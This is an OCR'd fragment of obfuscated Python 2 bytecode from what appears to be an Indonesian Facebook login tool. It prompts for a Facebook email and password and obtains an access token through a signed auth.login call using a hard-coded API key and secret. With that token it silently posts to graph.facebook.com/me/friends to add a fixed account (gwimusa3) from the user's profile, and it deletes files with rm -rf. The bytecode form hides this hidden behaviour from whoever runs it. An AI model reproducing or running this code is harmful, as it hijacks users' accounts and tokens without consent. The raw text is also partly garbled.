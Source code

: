 <t\t\x00j\x12\x00\x83\x00\x00\x01t\t\x00j\x13\x00\x83\x00\x00}\x03\x00d\x0e\x00|\x03\x00k\x06\x00rN\x02y!\x01d\x0f\x00|\x01\x00\x17d\x10\x00\x17|\x02\x00\x17d\x11\x00\x17}\x04\x00i\x0b\x00d\x12\x00d\x13\x006d\x14\x00d\x15\x006|\x01\x00d\x0c\x006d\x16\x00d\x17\x006d\x18\x00d\x19\x006d\x18\x00d\x1a\x006d\x1b\x00d\x1c\x006d\x1d\x00d\x1e\x006|\x02\x00d\x14\x006d\x1f\x00d \x006d!\x00d"\x006}\x05\x00t\x14\x00j\x15\x00d#\x00\x83\x01\x00}\x06\x00|\x06\x00j\x16\x00|\x04\x00\x83\x01\x00\x01|\x06\x00j\x17\x00\x83\x00\x00}\x07\x00|\x05\x00j\x16\x00i\x01\x00|\x07\x00d$\x006\x83\x01\x00\x01d%\x00}\x03\x00t\x18\x00j\x19\x00|\x03\x00d&\x00|\x05\x00\x83\x01\x01}\x08\x00t\x1a\x00j\x1b\x00|\x08\x00j\x1c\x00\x83\x01\x00}\t\x00t\x02\x00d\x02\x00d\'\x00\x83\x02\x00}\n\x00|\n\x00j\x1d\x00|\t\x00d(\x00\x19\x83\x01\x00\x01|\n\x00j\x1e\x00\x83\x00\x00\x01d)\x00GHt\x18\x00j\x1f\x00d*\x00|\t\x00d(\x00\x19\x17\x83\x01\x00\x01t\x03\x00\x83\x00\x00\x01WqN\x02\x04t\x18\x00j \x00j!\x00k\n\x00rJ\x02\x01\x01\x01d\t\x00GHt\x0c\x00\x83\x00\x00\x01qN\x02Xn\x00\x00d+\x00|\x03\x00k\x06\x00r\x83\x02d,\x00GHt\x00\x00j\x01\x00d-\x00\x83\x01\x00\x01t"\x00j#\x00d.\x00\x83\x01\x00\x01t\x0c\x00\x83\x00\x00\x01q\xad\x02d/\x00GHt\x00\x00j\x01\x00d-\x00\x83\x01\x00\x01t"\x00j#\x00d.\x00\x83\x01\x00\x01t$\x00\x83\x00\x00\x01n\x01\x00Xd\x00\x00S(0\x00\x00\x00Nt\x05\x00\x00\x00clears\t\x00\x00\x00login.txtt\x01\x00\x00\x00rs|\x00\x00\x00\x1b[1;97m\xe2\x95\x94\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x97sU\x00\x00\x00\x1b[1;91m[\x1b[1;97m\xe2\x97\x8f\x1b[1;91m] \x1b[1;92mLOGIN AKUN FACEBOOK ANDA \x1b[1;91m[\x1b[1;97m\xe2\x97\x8f\x1b[1;91m]s9\x00\x00\x00\x1b[1;91m[\x1b[1;97m+\x1b[1;91m] \x1b[1;97mID/Email \x1b[1;97m: \x1b[1;92ms9\x00\x00\x00\x1b[1;91m[\x1b[1;97m+\x1b[1;91m] \x1b[1;97mPassword \x1b[1;97m: \x1b[1;92ms\x16\x00\x00\x00https://m.facebook.coms$\x00\x00\x00\n\x1b[1;95m[!] \x1b[1;93mTidak ada koneksit\x02\x00\x00\x00nri\x00\x00\x00\x00t\x05\x00\x00\x00emailt\x04\x00\x00\x00passs\x0b\x00\x00\x00save-devicesG\x00\x00\x00api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail=s`\x00\x00\x00format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword=s;\x00\x00\x00return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32t \x00\x00\x00882a8490361da98702bf97a021ddc14dt\x07\x00\x00\x00api_keyt\x08\x00\x00\x00passwordt\x10\x00\x00\x00credentials_typet\x04\x00\x00\x00JSONt\x06\x00\x00\x00formatt\x01\x00\x00\x001t\x13\x00\x00\x00generate_machine_idt\x18\x00\x00\x00generate_session_cookiest\x05\x00\x00\x00en_USt\x06\x00\x00\x00locales\n\x00\x00\x00auth.logint\x06\x00\x00\x00methodt\x01\x00\x00\x000t\x14\x00\x00\x00return_ssl_resourcess\x03\x00\x00\x001.0t\x01\x00\x00\x00vt\x03\x00\x00\x00md5t\x03\x00\x00\x00sigs\'\x00\x00\x00https://api.facebook.com/restserver.phpt\x06\x00\x00\x00paramsR\x11\x00\x00\x00t\x0c\x00\x00\x00access_tokens1\x00\x00\x00\n\x1b[1;97m[\x1b[1;92m\xe2\x9c\x93\x1b[1;97m] \x1b[1;92mLogin BerhasilsM\x00\x00\x00https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token=t\n\x00\x00\x00checkpoints7\x00\x00\x00\n\x1b[1;91m[!] \x1b[1;93mSepertinya akun anda kena checkpoints\x10\x00\x00\x00rm -rf login.txti\x01\x00\x00\x00s\'\x00\x00\x00\n\x1b[1;91m[!] \x1b[1;93mPassword/Email salah(%\x00\x00\x00R\x05\x00\x00\x00t\x06\x00\x00\x00systemt\x04\x00\x00\x00opent\x04\x00\x00\x00menut\x08\x00\x00\x00KeyErrort\x07\x00\x00\x00IOErrort\x04\x00\x00\x00logot\t\x00\x00\x00raw_inputR#\x00\x00\x00t\x02\x00\x00\x00brt\t\x00\x00\x00mechanizet\x08\x00\x00\x00URLErrorR\x08\x00\x00\x00t\x04\x00\x00\x00Truet\x08\x00\x00\x00_factoryt\x07\x00\x00\x00is_htmlt\x0b\x00\x00\x00select_formt\x04\x00\x00\x00formt\x06\x00\x00\x00submitt\x06\x00\x00\x00geturlt\x07\x00\x00\x00hashlibt\x03\x00\x00\x00newt\x06\x00\x00\x00updatet\t\x00\x00\x00hexdigestt\x08\x00\x00\x00requestst\x03\x00\x00\x00gett\x04\x00\x00\x00jsont\x05\x00\x00\x00loadst\x04\x00\x00\x00textR\x19\x00\x00\x00t\x05\x00\x00\x00closet\x04\x00\x00\x00postt\n\x00\x00\x00exceptionsR\x01\x00\x00\x00R\x1c\x00\x00\x00R\x1d\x00\x00\x00t\x05\x00\x00\x00login(\x0b\x00\x00\x00t\x05\x00\x00\x00tokett\x02\x00\x00\x00idt\x03\x00\x00\x00pwdt\x03\x00\x00\x00urlR9\x00\x00\x00t\x04\x00\x00\x00dataR\x10\x00\x00\x00t\x01\x00\x00\x00aR%\x00\x00\x00R\x1e\x00\x00\x00t\x07\x00\x00\x00unikers(\x00\x00\x00\x00(\x00\x00\x00\x00s\x07\x00\x00\x00